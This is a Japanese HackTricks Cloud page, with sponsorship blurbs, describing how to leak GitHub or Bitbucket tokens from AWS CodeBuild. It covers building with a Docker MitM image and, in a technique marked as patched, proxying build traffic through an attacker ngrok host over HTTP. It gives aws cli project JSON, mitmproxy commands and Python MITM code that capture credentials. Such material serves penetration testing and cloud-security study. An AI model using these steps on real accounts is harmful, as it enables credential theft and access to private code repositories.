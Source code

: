 # AWS Codebuild - トークンの漏洩

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを見たい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有する**ために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Github/Bitbucketで設定されたトークンの回復

### Dockerイメージを介して

たとえば、アカウントにGithubへの認証が設定されていることがわかった場合、Codebuildを使用してそのアクセス（GHトークンまたはOAuthトークン）を**外部に漏洩**することができます。これは、プロジェクトのビルドを実行するためにCodebuildに**特定のDockerイメージを使用**させることで実現できます。

このためには、**新しいCodebuildプロジェクトを作成**するか、既存のプロジェクトの**環境を変更**して**Dockerイメージ**を設定します。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは非常に基本的なDockerイメージで、**環境変数 `https_proxy`**、**`http_proxy`**、**`SSL_CERT_FILE`**を設定します。これにより、**`https_proxy`**と**`http_proxy`**で指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**で指定されたSSL証明書を信頼することができます。

1. **独自のDocker MitMイメージを作成してアップロードする**
* リポジトリの手順に従ってプロキシのIPアドレスを設定し、SSL証明書を設定し、**Dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* `ngrok tcp 4444`のように**`ngrok`**を使用してホストにプロキシを設定できます。
* Dockerイメージがビルドされたら、それを**パブリックリポジトリ**（Dockerhub、ECRなど）に**アップロード**します。
2. **環境を設定する**
* **新しいCodebuildプロジェクトを作成**するか、既存のプロジェクトの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **ホストでMitMプロキシを設定する**
* **Githubリポジトリ**で指示されているように、次のようなものを使用できます：`mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **ビルドを実行して資格情報をキャプチャする**
* 認証ヘッダーでトークンを確認できます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは、aws cliからも次のように行うことができます。

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "docker.io/carlospolop/docker-mitm:v6",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
},
"serviceRole": "arn-service-role"
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### HTTPプロトコルを介して

{% hint style="success" %}
**この脆弱性は、2023年2月20日の週（おそらく金曜日）のいずれかの時点でAWSによって修正されました。したがって、攻撃者はこれを悪用することはできません :)**
{% endhint %}

CodeBuildで昇格された権限を持つ攻撃者は、設定されたGithub/BitbucketトークンまたはOAuth経由で設定された権限の場合は、コードにアクセスするために使用される一時的なOAuthトークンを漏洩させることができます。

* 攻撃者は、CodeBuildプロジェクトに環境変数**http\_proxy**と**https\_proxy**を追加し、それらを自分のマシンを指すように設定できます（例：`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSではなくHTTPを使用するように変更します。例：**http://**github.com/carlospolop-forks/TestActions
* 次に、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**認証情報**が平文（base64）でmitmポートに送信されます：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
これにより、攻撃者は自分のマシンからトークンを使用し、CodeBuildサービスを直接使用するよりも簡単に特権をリストアップし、乱用することができます。
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricksで会社を宣伝**したい場合や、**最新バージョンのPEASSを入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を入手しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**をフォロー**してください。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出**してください。

</details>
